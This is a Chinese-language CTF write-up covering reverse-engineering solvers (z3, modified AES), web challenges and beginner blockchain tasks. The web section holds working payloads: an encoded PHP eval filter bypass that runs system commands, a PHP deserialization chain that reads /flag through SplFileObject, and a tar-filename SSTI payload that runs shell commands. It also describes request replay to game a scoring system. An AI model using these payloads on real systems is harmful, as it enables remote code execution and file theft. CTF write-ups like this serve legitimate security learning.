 82, 54, 84, 32, 140, 48, 101, 218, 92, 83, 210, 55, 51, 160, 148,
 129, 253]
flag = ""
for i in range(len(cmp)-1, -1, -1):
    cmp[i] -= i
    cmp[i] ^= cmp[(i - 3 + 33) % 33]
print("".join(map(chr, cmp)))

~~~

### 简单算术

提取下不等式z3求解即可

~~~python
from z3 import *

s = Solver()
v = [BitVec(f"v{i}", 8) for i in range(23)]
s.add(253 * v[22]
     + 299 * v[21]
     + 88 * v[20]
     + 323 * v[19]
     + 764 * v[18]
     + 349 * v[17]
     + 758 * v[16]
     + 233 * v[15]
     + 255 * v[14]
     + 343 * v[13]
     + 613 * v[12]
     + 629 * v[11]
     + 596 * v[10]
     + 183 * v[9]
     + 43 * v[8]
     + 482 * v[7]
     + 771 * v[6]
     + 42 * v[5]
     + 244 * v[4]
     + 651 * v[3] == 403332)
s.add(25 * v[22]
     + 436 * v[21]
     + 937 * v[20]
     + 664 * v[19]
     + 792 * v[18]
     + 49 * v[17]
     + 738 * v[16]
     + 953 * v[15]
     + 133 * v[14]
     + 677 * v[13]
     + 744 * v[12]
     + 15 * v[11]
     + 34 * v[10]
     + 956 * v[9]
     + 759 * v[8]
     + 26 * v[7]
     + 147 * v[6]
     + 618 * v[5]
     + 721 * v[4]
     + 672 * v[3] == 440518)
s.add(547 * v[22]
     + 781 * v[21]
     + 562 * v[20]
     + 809 * v[19]
     + 481 * v[18]
     + 619 * v[17]
     + 200 * v[16]
     + 91 * v[15]
     + 23 * v[14]
     + 254 * v[13]
     + 641 * v[12]
     + 984 * v[11]
     + 477 * v[10]
     + 877 * v[9]
     + 277 * v[8]
     + 831 * v[7]
     + 325 * v[6]
     + 383 * v[5]
     + 446 * v[4]
     + 606 * v[3] == 423549)
s.add(393 * v[22]
     + 653 * v[21]
     + 813 * v[20]
     + 227 * v[19]
     + 46 * v[18]
     + 989 * v[17]
     + 293 * v[16]
     + 110 * v[15]
     + 124 * v[14]
     + 548 * v[13]
     + 830 * v[12]
     + 900 * v[11]
     + 886 * v[10]
     + 322 * v[9]
     + 963 * v[8]
     + 212 * v[7]
     + 944 * v[6]
     + 876 * v[5]
     + 792 * v[4]
     + 861 * v[3] == 505857)
s.add(53 * v[22]
     + 316 * v[21]
     + 679 * v[20]
     + 266 * v[19]
     + 885 * v[18]
     + 814 * v[17]
     + 568 * v[16]
     + 351 * v[15]
     + 623 * v[14]
     + 984 * v[13]
     + 832 * v[12]
     + 257 * v[11]
     + 341 * v[10]
     + 30 * v[9]
     + 467 * v[8]
     + 475 * v[7]
     + 604 * v[6]
     + 653 * v[5]
     + 1003 * v[4]
     + 359 * v[3] == 438956)
s.add(347 * v[22]
     + 706 * v[21]
     + 66 * v[20]
     + 777 * v[19]
     + 588 * v[18]
     + 830 * v[17]
     + 263 * v[16]
     + 595 * v[15]
     + 663 * v[14]
     + 597 * v[13]
     + 905 * v[12]
     + 415 * v[11]
     + 2 * v[10]
     + 911 * v[9]
     + 693 * v[8]
     + 959 * v[7]
     + 493 * v[6]
     + 567 * v[5]
     + 759 * v[4]
     + 478 * v[3] == 464591)
s.add(174 * v[22]
     + 80 * v[21]
     + 770 * v[20]
     + 834 * v[19]
     + 802 * v[18]
     + 732 * v[17]
     + 695 * v[16]
     + 6 * v[15]
     + 794 * v[14]
     + 666 * v[13]
     + 319 * v[12]
     + 276 * v[11]
     + 60 * v[10]
     + 962 * v[9]
     + 519 * v[8]
     + 551 * v[7]
     + 856 * v[6]
     + 521 * v[5]
     + 341 * v[4]
     + 972 * v[3] == 518258)
s.add(529 * v[22]
     + 394 * v[21]
     + 660 * v[20]
     + 920 * v[19]
     + 18 * v[18]
     + 889 * v[17]
     + 82 * v[16]
     + 815 * v[15]
     + 100 * v[14]
     + 243 * v[13]
     + 657 * v[12]
     + 353 * v[11]
     + 575 * v[10]
     + 65 * v[9]
     + 367 * v[8]
     + 161 * v[7]
     + 314 * v[6]
     + 503 * v[5]
     + 881 * v[4]
     + 764 * v[3] == 344071)
s.add(124 * v[22]
     + 773 * v[21]
     + 262 * v[20]
     + 961 * v[19]
     + 491 * v[18]
     + 815 * v[17]
     + 238 * v[16]
     + 1005 * v[15]
     + 796 * v[14]
     + 998 * v[13]
     + 500 * v[12]
     + 888 * v[11]
     + 658 * v[10]
     + 835 * v[9]
     + 639 * v[8]
     + 698 * v[7]
     + 213 * v[6]
     + 134 * v[5]
     + 514 * v[4]
     + 604 * v[3] == 476880)
s.add(834 * v[22]
     + 817 * v[21]
     + 384 * v[20]
     + 408 * v[19]
     + 855 * v[18]
     + 979 * v[17]
     + 136 * v[16]
     + 715 * v[15]
     + 446 * v[14]
     + 2 * v[13]
     + 38 * v[12]
     + 505 * v[11]
     + 837 * v[10]
     + 202 * v[9]
     + 331 * v[8]
     + 726 * v[7]
     + 658 * v[6]
     + 752 * v[5]
     + 560 * v[4]
     + 752 * v[3] == 380573)
s.add(923 * v[22]
     + 274 * v[21]
     + 664 * v[20]
     + 871 * v[19]
     + 801 * v[18]
     + 208 * v[17]
     + 862 * v[16]
     + 722 * v[15]
     + 966 * v[14]
     + 457 * v[13]
     + 568 * v[12]
     + 373 * v[11]
     + 726 * v[10]
     + 563 * v[9]
     + 939 * v[8]
     + 649 * v[7]
     + 694 * v[6]
     + 989 * v[5]
     + 85 * v[4]
     + 159 * v[3] == 533871)
s.add(645 * v[22]
     + 200 * v[21]
     + 155 * v[20]
     + 121 * v[19]
     + 275 * v[18]
     + 515 * v[17]
     + 278 * v[16]
     + 303 * v[15]
     + 513 * v[14]
     + 975 * v[13]
     + 781 * v[12]
     + 600 * v[11]
     + 625 * v[10]
     + 965 * v[9]
     + 162 * v[8]
     + 713 * v[7]
     + 346 * v[6]
     + 510 * v[5]
     + 4 * v[4]
     + 532 * v[3] == 426093)
s.add(382 * v[22]
     + 18 * v[21]
     + 935 * v[20]
     + 594 * v[19]
     + 812 * v[18]
     + 757 * v[17]
     + 174 * v[16]
     + 301 * v[15]
     + 43 * v[14]
     + 413 * v[13]
     + 578 * v[12]
     + 38 * v[11]
     + 998 * v[10]
     + 363 * v[9]
     + 445 * v[8]
     + 22 * v[7]
     + 764 * v[6]
     + 538 * v[5]
     + 381 * v[4]
     + 423 * v[3] == 356277)
s.add(129 * v[22]
     + 421 * v[21]
     + 185 * v[20]
     + 68 * v[19]
     + 354 * v[18]
     + 539 * v[17]
     + 484 * v[16]
     + 247 * v[15]
     + 238 * v[14]
     + 365 * v[13]
     + 205 * v[12]
     + 723 * v[11]
     + 516 * v[10]
     + 426 * v[9]
     + 6 * v[8]
     + 203 * v[7]
     + 203 * v[6]
     + 615 * v[5]
     + 568 * v[4]
     + 535 * v[3] == 303854)
s.add(677 * v[22]
     + 52 * v[21]
     + 422 * v[20]
     + 282 * v[19]
     + 188 * v[18]
     + 366 * v[17]
     + 53 * v[16]
     + 222 * v[15]
     + 199 * v[14]
     + 252 * v[13]
     + 103 * v[12]
     + 755 * v[11]
     + 704 * v[10]
     + 944 * v[9]
     + 580 * v[8]
     + 649 * v[7]
     + 912 * v[6]
     + 213 * v[5]
     + 755 * v[4]
     + 369 * v[3] == 348552)
s.add(360 * v[22]
     + 977 * v[21]
     + 341 * v[20]
     + 417 * v[19]
     + 488 * v[18]
     + 928 * v[17]
     + 281 * v[16]
     + 80 * v[15]
     + 380 * v[14]
     + 605 * v[13]
     + 293 * v[12]
     + 779 * v[11]
     + 749 * v[10]
     + 138 * v[9]
     + 104 * v[8]
     + 247 * v[7]
     + 19 * v[6]
     + 706 * v[5]
     + 963 * v[4]
     + 173 * v[3] == 308804)
s.add(954 * v[22]
     + 530 * v[21]
     + 247 * v[20]
     + 926 * v[19]
     + 244 * v[18]
     + 2 * v[17]
     + 723 * v[16]
     + 139 * v[15]
     + 751 * v[14]
     + 22 * v[13]
     + 580 * v[12]
     + 159 * v[11]
     + 162 * v[10]
     + 21 * v[9]
     + 645 * v[8]
     + 975 * v[7]
     + 860 * v[6]
     + 966 * v[5]
     + 912 * v[4]
     + 744 * v[3] == 476778)
s.add(851 * v[22]
     + 929 * v[21]
     + 883 * v[20]
     + 690 * v[19]
     + 602 * v[18]
     + 672 * v[17]
     + 799 * v[16]
     + 996 * v[15]
     + 123 * v[14]
     + 849 * v[13]
     + 67 * v[12]
     + 901 * v[11]
     + 365 * v[10]
     + 612 * v[9]
     + 255 * v[8]
     + 886 * v[7]
     + 101 * v[6]
     + 241 * v[5]
     + 337 * v[4]
     + 979 * v[3] == 501272)
s.add(92 * v[22]
     + 719 * v[21]
     + 799 * v[20]
     + 799 * v[19]
     + 416 * v[18]
     + 296 * v[17]
     + 141 * v[16]
     + 211 * v[15]
     + 336 * v[14]
     + 865 * v[13]
     + 450 * v[12]
     + 938 * v[11]
     + 296 * v[10]
     + 618 * v[9]
     + 117 * v[8]
     + 595 * v[7]
     + 659 * v[6]
     + 461 * v[5]
     + 841 * v[4]
     + 933 * v[3] == 470235)
s.add(418 * v[22]
     + 937 * v[21]
     + 929 * v[20]
     + 419 * v[19]
     + 487 * v[18]
     + 985 * v[17]
     + 565 * v[16]
     + 601 * v[15]
     + 918 * v[14]
     + 293 * v[13]
     + 25 * v[12]
     + 593 * v[11]
     + 519 * v[10]
     + 301 * v[9]
     + 404 * v[8]
     + 719 * v[7]
     + 747 * v[6]
     + 108 * v[5]
     + 1001 * v[4]
     + 389 * v[3] == 395149)

if s.check() == sat:
    ans = s.model()
    out = []
    for i in v:
        try:
            out.append(ans[i].as_long())
        except:
            continue
    print(out)
    d = [0x000000AF, 0x0000004B, 0x00000081, 0x00000087, 0x00000077, 0x0000006B, 0x000000A2, 0x00000062, 0x000000A3, 0x000000AD, 0x00000073, 0x0000008F, 0x0000006C, 0x00000095, 0x00000033, 0x00000053, 0x000000A3, 0x0000004A, 0x00000066, 0x00000094, 0x000000D4, 0x0000003D, 0x0000008B, 0x00000079, 0x00000082, 0x00000092, 0x0000005B, 0x0000008D, 0x000000AC, 0x000000BA, 0x000000B1, 0x00000051, 0x0000006F, 0x00000091, 0x00000048, 0x0000008F, 0x0000004E, 0x00000094]
    flag = ""
    for i in range(38):
        flag += chr(d[i]-out[i%20])
    print(flag)
~~~

### ez_IDA

直接ida找到flag

### hehe

超级无敌的魔改aes，可以findcrypt找到aes加密的痕迹，结合有密文的函数可以确定是aes。由于是macos编译的可执行文件，没法动态调试，只能死扣算法

首先发现S_BOX列表值不一样，这是第一个魔改的点；第二个点是动态改变S_BOX值，如下函数

~~~c
void *sub_100002624()
{
  unsigned __int64 v0; // x19
  unsigned __int64 v1; // x20
  _BYTE *v2; // x21
  void *result; // x0
  __int64 v4; // x26
  char v5; // w9
  _BYTE *v6; // x8
  char v7[256]; // [xsp+0h] [xbp-180h] BYREF
  __int64 v8[6]; // [xsp+100h] [xbp-80h] BYREF

  for ( result = (void *)sub_100032448(); v1; v2 = v6 )
  {
    if ( v1 >= 0x10 )
      v4 = 16LL;
    else
      v4 = v1;
    result = memcpy(v7, &RijnDael_AES_LONG_100034583, sizeof(v7));
    if ( v0 > 0xFF )
    {
      v8[0] = (__int64)&off_100040310;
      v8[1] = 1LL;
      v8[3] = 0LL;
      v8[4] = 0LL;
      v8[2] = 8LL;
      sub_100032750(v8, &off_100040320);
    }
    v5 = v7[v0];
    v6 = &v2[v4];
    v1 -= v4;
    v7[v0] = 124;
    v7[1] = v5;
    do
    {
      *v2 = v7[(unsigned __int8)*v2];
      ++v2;
      --v4;
    }
    while ( v4 );
  }
  return result;
}
~~~

麻烦的点在于S_BOX和逆S盒的生成，每次调用都要更新

~~~python
import copy

MIX_C = [[0x2, 0x3, 0x1, 0x1], [0x1, 0x2, 0x3, 0x1], [0x1, 0x1, 0x2, 0x3], [0x3, 0x1, 0x1, 0x2]]
I_MIXC = [[0xe, 0xb, 0xd, 0x9], [0x9, 0xe, 0xb, 0xd], [0xd, 0x9, 0xe, 0xb], [0xb, 0xd, 0x9, 0xe]]
RCon = [0x01000000, 0x02000000, 0x04000000, 0x08000000, 0x10000000, 0x20000000, 0x40000000, 0x80000000, 0x1B000000,
        0x36000000]
S_BOX1 = [0x63, 0x7C, 0x77, 0x7B, 0xF2, 0x6B, 0x6F, 0xC5, 0x30, 0x01, 0x67, 0x2B, 0xFE, 0xD7, 0xAB, 0x76, 0xCA, 0x82, 0xC9, 0x7D, 0xFA, 0x59, 0x47, 0xF0, 0xAD, 0xD4, 0xA2, 0xAF, 0x9C, 0xA4, 0x72, 0xC0, 0xB7, 0xFD, 0x93, 0x26, 0x36, 0x3F, 0xF7, 0xCC, 0x34, 0xA5, 0xE5, 0xF1, 0x71, 0xD8, 0x31, 0x15, 0x04, 0xC7, 0x23, 0xC3, 0x18, 0x96, 0x05, 0x9A, 0x07, 0x12, 0x80, 0xE2, 0xEB, 0x27, 0xB2, 0x75, 0x09, 0x83, 0x2C, 0x1A, 0x1B, 0x6E, 0x5A, 0xA0, 0x52, 0x3B, 0xD6, 0xB3, 0x29, 0xE3, 0x2F, 0x84, 0x53, 0xD1, 0x00, 0xED, 0x20, 0xFC, 0xB1, 0x5B, 0x6A, 0xCB, 0xBE, 0x39, 0x4A, 0x4C, 0x58, 0xCF, 0xD0, 0xEF, 0xAA, 0xFB, 0x43, 0x4D, 0x33, 0x85, 0x45, 0xF9, 0x02, 0x7F, 0x50, 0x3C, 0x9F, 0xA8, 0x51, 0xA3, 0x40, 0x8F, 0x92, 0x9D, 0x38, 0xF5, 0xBC, 0xB6, 0xDA, 0x21, 0x10, 0xFF, 0xF3, 0xD2, 0xCD, 0x0C, 0x13, 0xEC, 0x5F, 0x97, 0x44, 0x17, 0xC4, 0xA7, 0x7E, 0x3D, 0x64, 0x5D, 0x19, 0x73, 0x60, 0x81, 0x4F, 0xDC, 0x22, 0x90, 0x2A, 0x88, 0x46, 0xEE, 0xB8, 0x14, 0xDE, 0x5E, 0x0B, 0xDB, 0xE0, 0x32, 0x3A, 0x0A, 0x49, 0x06, 0x24, 0x5C, 0xC2, 0xD3, 0xAC, 0x62, 0x91, 0x95, 0xE4, 0x79, 0xE7, 0xC8, 0x37, 0x6D, 0x8D, 0xD5, 0x4E, 0xA9, 0x6C, 0x56, 0xF4, 0xEA, 0x65, 0x7A, 0xAE, 0x08, 0xBA, 0x78, 0x25, 0x2E, 0x1C, 0xA6, 0xB4, 0xC6, 0xE8, 0xDD, 0x74, 0x1F, 0x4B, 0xBD, 0x8B, 0x8A, 0x70, 0x3E, 0xB5, 0x66, 0x48, 0x03, 0xF6, 0x0E, 0x61, 0x35, 0x57, 0xB9, 0x86, 0xC1, 0x1D, 0x9E, 0xE1, 0xF8, 0x98, 0x11, 0x69, 0xD9, 0x8E, 0x94, 0x9B, 0x1E, 0x87, 0xE9, 0xCE, 0x55, 0x28, 0xDF, 0x8C, 0xA1, 0x89, 0x0D, 0xBF, 0xE6, 0x42, 0x68, 0x41, 0x99, 0x2D, 0x0F, 0xB0, 0x54, 0xBB, 0x16]

cnt = 0
class AES:

    def SubBytes(self, State):
        S_BOX = copy.deepcopy(S_BOX1)
        global cnt
        S_BOX[1], S_BOX[cnt] = S_BOX[cnt], S_BOX[1]
        S_BOX = [S_BOX[i * 16: i * 16 + 16] for i in range(16)]
        cnt += 1
        # 字节替换
        return [S_BOX[i][j] for i, j in
                [(_ >> 4, _ & 0xF) for _ in State]]

    def SubBytes_Inv(self, State):
        S_BOX = copy.deepcopy(S_BOX1)
        global cnt
        S_BOX[1], S_BOX[cnt] = S_BOX[cnt], S_BOX[1]
        cnt -= 1
        # 字节逆替换
        new_contrary_sbox = [0] * 256
        for i in range(256):
            line = (S_BOX[i] & 0xf0) >> 4
            rol = S_BOX[i] & 0xf
            new_contrary_sbox[(line * 16) + rol] = i

        # 生成逆S_BOX
        I_SBOX = [new_contrary_sbox[i * 16: i * 16 + 16] for i in range(16)]

        # 字节逆替换
        return [I_SBOX[i][j] for i, j in
                [(_ >> 4, _ & 0xF) for _ in State]]

    def ShiftRows(self, S):
        # 行移位
        return [S[0], S[5], S[10], S[15],
                S[4], S[9], S[14], S[3],
                S[8], S[13], S[2], S[7],
                S[12], S[1], S[6], S[11]]

    def ShiftRows_Inv(self, S):
        # 逆行移位
        return [S[0], S[13], S[10], S[7],
                S[4], S[1], S[14], S[11],
                S[8], S[5], S[2], S[15],
                S[12], S[9], S[6], S[3]]

    def MixColumns(self, State):
        # 列混合
        return self.Matrix_Mul(MIX_C, State)

    def MixColumns_Inv(self, State):
        # 逆列混合
        return self.Matrix_Mul(I_MIXC, State)

    def RotWord(self, _4byte_block):
        # 用于生成轮密钥的字移位
        return ((_4byte_block & 0xffffff) << 8) + (_4byte_block >> 24)

    def SubWord(self, _4byte_block):
        # 用于生成密钥的字节替换
        result = 0
        for position in range(4):
            i = _4byte_block >> position * 8 + 4 & 0xf
            j = _4byte_block >> position * 8 & 0xf
            result ^= S_BOX[i][j] << position * 8
        return result

    def mod(self, poly, mod=0b100011011):
        # poly模多项式mod
        while poly.bit_length() > 8:
            poly ^= mod << poly.bit_length() - 9
        return poly

    def mul(self, poly1, poly2):
        # 多项式相乘
        result = 0
        for index in range(poly2.bit_length()):
            if poly2 & 1 << index:
                result ^= poly1 << index
        return result

    def Matrix_Mul(self, M1, M2):  # M1 = MIX_C  M2 = State
        # 用于列混合的矩阵相乘
        M = [0] * 16
        for row in range(4):
            for col in range(4):
                for Round in range(4):
                    M[row + col * 4] ^= self.mul(M1[row][Round], M2[Round + col * 4])
                M[row + col * 4] = self.mod(M[row + col * 4])
        return M

    def round_key_generator(self, _16bytes_key):
        # 轮密钥产生
        w = [_16bytes_key >> 96,
             _16bytes_key >> 64 & 0xFFFFFFFF,
             _16bytes_key >> 32 & 0xFFFFFFFF,
             _16bytes_key & 0xFFFFFFFF] + [0] * 40
        for i in range(4, 44):
            temp = w[i - 1]
            if not i % 4:
                temp = self.SubWord(self.RotWord(temp)) ^ RCon[i // 4 - 1]
            w[i] = w[i - 4] ^ temp
        return [self.num_2_16bytes(
            sum([w[4 * i] << 96, w[4 * i + 1] << 64,
                 w[4 * i + 2] << 32, w[4 * i + 3]])
        ) for i in range(11)]

    def AddRoundKey(self, State, RoundKeys, index):
        # 异或轮密钥
        return self._16bytes_xor(State, RoundKeys[index])

    def _16bytes_xor(self, _16bytes_1, _16bytes_2):
        return [_16bytes_1[i] ^ _16bytes_2[i] for i in range(16)]

    def _16bytes2num(cls, _16bytes):
        # 16字节转数字
        return int.from_bytes(_16bytes, byteorder='big')

    def num_2_16bytes(cls, num):
        # 数字转16字节
        return num.to_bytes(16, byteorder='big')

    def aes_encrypt(self, plaintext_list, RoundKeys):
        State = plaintext_list
        State = self.AddRoundKey(State, RoundKeys, 0)
        for Round in range(1, 10):
            State = self.SubBytes(State)
            State = self.ShiftRows(State)
            State = self.MixColumns(State)
            State = self.AddRoundKey(State, RoundKeys, Round)
        State = self.SubBytes(State)
        State = self.ShiftRows(State)
        State = self.AddRoundKey(State, RoundKeys, 10)
        return State

    def aes_decrypt(self, ciphertext_list, RoundKeys):
        State = ciphertext_list
        State = self.AddRoundKey(State, RoundKeys, 10)
        for Round in range(1, 10):
            State = self.ShiftRows_Inv(State)
            State = self.SubBytes_Inv(State)
            State = self.AddRoundKey(State, RoundKeys, 10 - Round)
            State = self.MixColumns_Inv(State)
        State = self.ShiftRows_Inv(State)
        State = self.SubBytes_Inv(State)
        State = self.AddRoundKey(State, RoundKeys, 0)
        return State


S_BOX = copy.deepcopy(S_BOX1)
S_BOX = [S_BOX[i * 16: i * 16 + 16] for i in range(16)]
aes = AES()
key = int("WHAT_THIS_A_401\x00".encode().hex(), 16)
RoundKeys = aes.round_key_generator(key)

# 加密
plaintext = 0x31313131313131313131313131313131
# 0x00112233445566778899aabbccddeeff -> b'\x00\x11"3DUfw\x88\x99\xaa\xbb\xcc\xdd\xee\xff'
plaintext = aes.num_2_16bytes(plaintext)
ciphertext = aes.aes_encrypt(plaintext, RoundKeys)
print('ciphertext = ' + hex(aes._16bytes2num(ciphertext)))
print(cnt)
flag = b""
# 解密
ciphertext = 0x3d37caf5fd9d7af1eeaebe51ed791452
ciphertext = aes.num_2_16bytes(ciphertext)
plaintext = aes.aes_decrypt(ciphertext, RoundKeys)
flag += bytes(plaintext)
cnt = 10
ciphertext = 0xcbfa0c6aa20e71cd1b59095892f54bb5
ciphertext = aes.num_2_16bytes(ciphertext)
plaintext = aes.aes_decrypt(ciphertext, RoundKeys)
flag += bytes(plaintext)
cnt = 10
ciphertext = 0x4b4b60db06f73fc8e226c40bac24e13e
ciphertext = aes.num_2_16bytes(ciphertext)
plaintext = aes.aes_decrypt(ciphertext, RoundKeys)
flag += bytes(plaintext)
print(flag)	# b'SCUCTF{hehe_I_d0nt_like_RUST_but_1_w1LL_US3_it}\x00'
~~~

## Web

### easyphp

```
<?php
highlight_file(__FILE__);

if (preg_match('/[A-Za-z]|\^|~|%|\.|\$|\{|\}|\||\/|\?|\+|=|`| |\*|_|#/is', $_GET['exp'])) {
    die("no hack");
}else{
    @eval($_GET['exp']);
}
```

这里过滤了~和^符号，但是没有过滤&符号，所以这里考虑使用&符号来构造字符串：

```
<?php
// 定义目标字符字符串
$targetChars = "ls /";
// 将目标字符字符串转换为单个字符的ASCII码数组
$targetCharsAscii = array_map('ord', str_split($targetChars));

// 用于存储每个目标字符找到符合条件的encodedChar1
$encodedChar1List = [];
// 用于存储每个目标字符找到符合条件的encodedChar2
$encodedChar2List = [];

foreach ($targetCharsAscii as $targetCharAscii) {
    $found = false;
    for ($i = 0; $i <= 0xFF; $i++) {
        if ($found) {
            break;
        }
        for ($j = 0; $j <= 0xFF; $j++) {
            $hexValue1 = dechex($i);
            $hexValue2 = dechex($j);

            $char1 = chr($i);
            $char2 = chr($j);

            $resultAscii = ord($char1) & ord($char2);

            // 检查是否匹配当前目标字符
            if ($resultAscii === $targetCharAscii &&
           !preg_match('/[A-Za-z]|\^|~|%|\.|\$|\{|\}|\||\/|\?|\+|=|`| |\*|_|#/is', $char1) &&
           !preg_match('/[A-Za-z]|\^|~|%|\.|\$|\{|\}|\||\/|\?|\+|=|`| |\*|_|#/is', $char2)) {

                // 对找到的符合条件的字符进行URL编码
                $encodedChar1 = urlencode($char1);
                $encodedChar2 = urlencode($char2);

                echo "十六进制值：0x{$hexValue1} 和 0x{$hexValue2} 按位与后得到字符 '"
                  . chr($targetCharAscii). "'，对应的字符分别是：{$encodedChar1}&{$encodedChar2}\n";

                // 将当前找到的encodedChar1和encodedChar2添加到对应的列表中
                $encodedChar1List[] = $encodedChar1;
                $encodedChar2List[] = $encodedChar2;

                $found = true;
                break;
            }
        }
    }
}

// 计算encodedChar1的总和
$encodedChar1Sum = implode('', $encodedChar1List);
// 计算encodedChar2的总和
$encodedChar2Sum = implode('', $encodedChar2List);

echo "按位与后得到的所有字符对应的字符分别是：'{$encodedChar1Sum}'%26'{$encodedChar2Sum}'\n";
```

这个脚本能够生成使用&这个符号计算产生的：

```
$resultAscii = ord($char1) & ord($char2);
```

构造生成：

```
(%27%7F%7F%7F%7F%7F%7F%27%26%27%F3%F9%F3%F4%E5%ED%27)(%27%7F%7F%7F%26%7F%5B%7F%5B%7F%7F%7F%7F%7F%7F%27%26%27%E3%E1%F4%2C%FB%C9%C6%D3%FD%AF%E6%EC%E1%E7%27);
```

对应的是：

```
('system')('cat${IFS}flag')
```

并且在进行亦或的时候需要将两部分分别用单引号扩起来

也就是说本来


这样是可以直接在代码里面执行的，但是通过get传参进来的时候就需要这样来表示phpinfo：

```
'%7f%7f%7f%7f%7f%7f%7f'&'%f0%e8%f0%e9%ee%e6%ef'    
```

而不能这样：

```
%7f%7f%7f%7f%7f%7f%7f&%f0%e8%f0%e9%ee%e6%ef  
```

也就是说不能忽略掉这个单引号

所以phpinfo()就应该：

```
(%27%7f%7f%7f%7f%7f%7f%7f%27&%27%f0%e8%f0%e9%ee%e6%ef%27)();    
```

### unserialize

反序列化，这里用到了两个知识点。

```
<?php
highlight_file(__FILE__);
function filter($password){
    $filter_arr = array("admin");
    $filter = '/'.implode("|",$filter_arr).'/i';
    return preg_replace($filter,"guest",$password);
}
class User{
    public $username;
    public $value;
    public function shell($unser){;
        $ser = serialize($unser);
        echo $ser;
        if($ser!=$this->value){
            $key1 = $unser[0];
            $key2 = $unser[1];
            echo new $key1($key2);
        }
        
    }
    public function __destruct()
    {
        if($this->username == "admin"){
            $unser = unserialize($this->value);
            $this->shell($unser);
        }
    }
}

$user=unserialize(filter($_POST["user"]));
```

这里需要绕过两个地方，第一个地方就是我们的这个字符串匹配，但是这里字符串匹配我们可以使用大写的S和16进制来进行匹配绕过

第二个地方就是我们的难点，需要使用不完整类：__PHP_Incomplete_Class绕过，简单来说这个类就是为了绕过这样的判断的：

```
serialize(unserialize($x)) !== $x;
```

简单来说就是一个序列化字符串反序列化后再序列化和之前不一样了。

这里就需要用到这个类，我们直接将下面内容拼接到需要绕过的序列化字符串中即可。

```
O:22:"__PHP_Incomplete_Class":1:{s:3:"abc";N;}}
```

因为上面的序列化字符串在序列化完成后会自动消失，因为他没有这个__PHP_Incomplete_Class_Name属性，所以在进行第二次序列化的时候就会消失不见了：

例如构建一个序列化字符串：

```
a:3:{i:0;s:13:\"SplFileObject\";i:1;s:49:\"php://filter/convert.base64-encode/resource=/flag\";i:2;O:22:\"__PHP_Incomplete_Class\":1:{s:3:\"abc\";N;}}
```

在第一次进行反序列化后出来的对象是这样的：


将这个对象再序列化一次后就可以看见序列化字符串变为了这样：

```
echo serialize(unserialize("a:3:{i:0;s:13:\"SplFileObject\";i:1;s:49:\"php://filter/convert.base64-encode/resource=/flag\";i:2;O:22:\"__PHP_Incomplete_Class\":1:{s:3:\"abc\";N;}}"))
```


发现这个不完整类里面的属性已经没有了，之后再将其进行反序列化：


那么我们就利用这个机制来进行绕过，最终的payload：

```
O:4:"User":2:{s:8:"username";S:5:"\61\64\6d\69\6e";s:5:"value";s:142:"a:3:{i:0;s:13:"SplFileObject";i:1;s:49:"php://filter/convert.base64-encode/resource=/flag";i:2;O:22:"__PHP_Incomplete_Class":1:{s:3:"abc";N;}}";}
```

这里在读文件的时候需要这样构造原生类：

```
	$unser = [
			0 => 'SplFileObject',
			1 => 'php://filter/convert.base64-encode/resource=/flag'
	];
```

用伪协议去读取内容，不然读不完

### untar

```
import tarfile

tar = tarfile.open("exploit.tar", "w")
payload = r"{{self.__init__.__globals__.__builtins__.__import__('os').popen('ls ..').read()}}"
tarinfo = tarfile.TarInfo(payload)
tarinfo.size = 0
tar.addfile(tarinfo)
tar.close()
```

这样涉及到tar文件解压的时候可以这样，他可以将上述payload弄到文件名里面去，最后在存在ssti的地方将文件名给渲染出来，造成ssti

### php_beginer

```
<?php
highlight_file(__FILE__);
$flag = file_get_contents("/flag");

if(isset($_GET['what_is[php'])){
    if(strpos($_REQUEST['what_is[php'], 'easy') !== false){
        echo "php is not so easy!T^T";
        die();
    }
    if(strpos($_SERVER['QUERY_STRING'], 'easy') !== false){
        echo "php is so hard!T^T";
        die();
    }
    if($_GET['what_is[php']==="php is so easy"){
        echo "yes, php is so easy!";
        echo $flag;
    }
}else{
    echo "nonono";
}
```

这里涉及到三个php特性，在get和post请求中第一个【符号会自动变为_下划线，但是第二个【符号就不会发生改变了

那个$_SERVER是不会对url解码的

$_REQUEST中Post变量优先级比GET高，会将get给覆盖掉


1. 审计代码，发现需要设置参数 `what_is[php` 的值，由于 `[` 属于非法参数，php的特性是会将非法参数转换为 `_`，但是只会转换第一个而保留后面的，所以真正传递的参数是 `what[is[php`。

2. 审计代码发现 GET 方法得到的参数必须是 `php is so easy`，但是 REQUEST 和 SERVER 的值不能有 `easy`。根据 php 的特性，REQUEST 会优先接受 POST 的数据，SERVER 不会自动转义 URL 编码。所以输入 POST 的值抢占 REQUEST，再将 `easy` 进行 URL 编码即可。


### math master 1

1. 页面是一个计算器，每做一题得 1 分，要 1000 分才能拿到 flag，那肯定不能一题题做。对做题过程用 Burp 进行抓包，发现提交答案的 POST 包通过后会加分。将包发到 repeater，发现重放可以无视题目加分，随即发到 intruder 中用 none payload 重复 1000 次即可。




### web 入门指北

1. 下载 pdf，打开后拉到底部，flag 一看就是 base64 编码的，解码即可。


### math master 2

1. 一代的升级版，用相同的方法发现跳出 `OVERFLOW` 错误并清空分数。重新用 repeater 手动重放，发现跳出 `TOO SLOW` 错误。判断是做了时间检测。仍然用 intruder 爆破，设置间隔为 400ms 随机变化，在五十多分后直接在响应包里拿到 flag（有 bug 啊


## Blockchain

### hello blockchain！

1. 入门的区块链，只需要向指定用户转账。按照教程编写 python 文件，设置好 ABI，发送交易请求即可。


### hello blockchain2!

1. 入门的区块链，向合约发送特定内容的 greet 。过程同上。


### gambling

1. 查看源码，发现是两个合约之间的调用，题目互动给的合约地址是 `SETUP` 的。由于 `Random` 合约是 public 属性，所以访问返回其地址，再访问该合约，将 `guess` 值设为 4 即可。


